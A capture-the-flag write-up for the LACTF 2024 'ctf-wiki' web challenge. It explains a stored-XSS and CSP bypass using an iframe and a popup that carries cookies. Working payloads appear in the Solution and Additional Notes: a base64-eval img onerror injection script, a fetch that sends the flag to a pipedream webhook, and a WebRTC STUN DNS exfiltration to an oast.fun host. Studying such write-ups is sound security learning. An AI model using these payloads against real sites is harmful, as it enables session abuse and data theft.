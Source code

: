 ```yaml
---
title: LACTF 2024 - Writeup (ctf-wiki)
date: 2024-03-01 01:58:35
tags: web
---
```


# **ctf-wiki | 38 solves**
I am such a huge fan of CTF players that I decided to create a wiki with some of my favorites! Hopefully, none of them hack it. ;D

[ctf-wiki.chall.lac.tf](ctf-wiki.chall.lac.tf)

## **Description**
We are given a url, an Admin bot link, and the source code for the main page. The website is a Flask application that lets you add a decription of a CTF player. Once we fill in the fields, we get back a note created with a specific UUID that can later be referenced.
![](./image.png)


Looking at the source code, we see two main endpoints: `/edit`, and `/view`. However if when we are logged in, and we try to visit `/view`, we are instantly redirected to `/edit`. We can see this implemented in the source:

```py
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
```

Which explicitly redirects us to the `edit` endpoint. 

Looking around the source code more, we can see where the flag is stored.
```py
@app.post("/flag")
def flag():
    adminpw = os.environ.get("ADMINPW") or "admin"
    if session.get("password") != adminpw:
        return redirect("/login?error=" + urllib.parse.quote_plus("Not the admin."))

    flag = os.environ.get("FLAG") or "lactf{test-flag}"
    return flag, 200
```

For this, we need to make a post request to `/flag`, with an account using the correct admin password. Since we have an Admin Bot for this challenge as well, its clear now that we need some sort of XSS to make the admin request this flag for us, and then we can exfiltrate it to a server we control.

And looking at the template for `view.html`, we can see exactly where this XSS is:
```html
<div class="ctfer-info">{{ description | safe }}</div>
```

Which in Jinja2 templates will not sanitize the input placed there, meaning we can put arbitrary HTML and JS in the description. 
Finally, we can see a CSP is enforced on the pages with a valid session.

```py
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response

```
The `default-src=self` will be a fallback for CSP directives that were not specified in this list, so when exfiltrating we will additionally need to take this into consideration.

## **Solution**
The base idea of the challenge will utilize the fact that if the ctf-wiki page is embedded in an iframe on an attacker controlled page, that frame will not send session cookies. Meaning if we can get the Admin to visit our page, and embed the `/view` endpoint, it will not send the admin session. However, that iframe can create a window using `window.open`, and the window it creates will send the cookies! Additionally since these are the same origin, the payload in `/view` will be able to access the window object of the cookie page, and therefore execute JS!

Now from here we can make the fetch request, but we need to somehow send this to our domain. 

### XSS on window with cookies
To get a simple POC, we can first create a note that creates a new window, then executes some JS inside that window. I also created this helper script to change the payload on my page quickly.

```py
import requests
from base64 import b64encode

cookies = {
    'session': 'eyJwYXNzd29yZCI6IjEyMzQiLCJ1c2VybmFtZSI6ImFoaCJ9.ZdLx0w.E2vT2k0HzBa_iXbhdqHgGiR-oxg',
}

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.alert(1);
""".strip()

data = {
    'id': 'd74c05271ee7f058e376451a59086650',
    'name': 'asdf',
    'image': 'asdf',
    'team': 'asdf',
    'specialty': 'asdf',
    'website': 'asdf',
    'description': f'<img src=x onerror="eval(atob(\'{b64encode(payload.encode()).decode()}\'))">',
}

response = requests.post(
    'https://ctf-wiki.chall.lac.tf/edit/d74c05271ee7f058e376451a59086650',
    cookies=cookies,
    data=data,
)
```

Then we can host the `/view` endpoint for this page on our own domain in an iframe.
```html
<iframe id="thing" src="https://ctf-wiki.chall.lac.tf/view/d74c05271ee7f058e376451a59086650"></iframe>
```

When we visit our site now when logged in on ctf-wiki, (after enabling popups) we can see a page opened and an alert fired.
![](./image-1.png)
Whats important is that the alert is on the new page, and additionally, we can see that the new page will be logged in.
![](./image-3.png)

Now we can try adjusting our payload to make a fetch to `/flag`, and send it to a webhook.
```js
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.onload = () => {
    w.fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        fetch("https://eo4r52sc1021bl8.m.pipedream.net?flag=" + btoa(r));
    });
}
```

Note here we are using `w.fetch` to fetch the `/flag` endpoint, but just fetch to send it back to us. This is since the CSP will prevent using `w.fetch` to make a request outside the `https://ctf-wiki.chall.lac.tf/` origin, however the cookieless page does not have that CSP restriction.

Finally, we send this to the Admin Bot, get our callback, and base64 decode to get the flag!
![](./image-4.png)

---
## Flag

```
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}
```


## Additional Notes
During the CTF, I honestly don't know why I didn't try this. I think I accidently tried `w.fetch` when exfiltrating (instead of just fetch), got the `connect-uri` CSP issue, and then just resorted to the option I knew on how to solve that which was using WebRTC. 

A reference for that payload is this very well written writeup for SekaiCTF GolfJail which used that same technique.
[https://blog.antoniusblock.net/posts/golfjail/](https://blog.antoniusblock.net/posts/golfjail/)

You can send the same request, but modifying the data to the request response, and collect the response in the DNS query.
This is the payload script I used during the CTF.
```py
innerpayload = """
window.onload = () => {
    fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        pc=new RTCPeerConnection({"iceServers":[{"urls":["stun:"+r.split("").map(x=>x.charCodeAt(0).toString(16)).join("").substr(0, 62)+"."+"zlamrbukykhbdngfjbuh29ofd2v5k39qo.oast.fun"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
    })
}
""".strip()

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.eval(atob('{b64encode(innerpayload.encode()).decode()}'))
""".strip()
```

And you will get a response like this, which afterwards you can hex decode the subdomain to determine the flag!
![](./image-5.png)

But yeah there fetch from the cookieless CSPless page is alot more straightforward lol. In the words of the author himself:
![](./image-6.png)
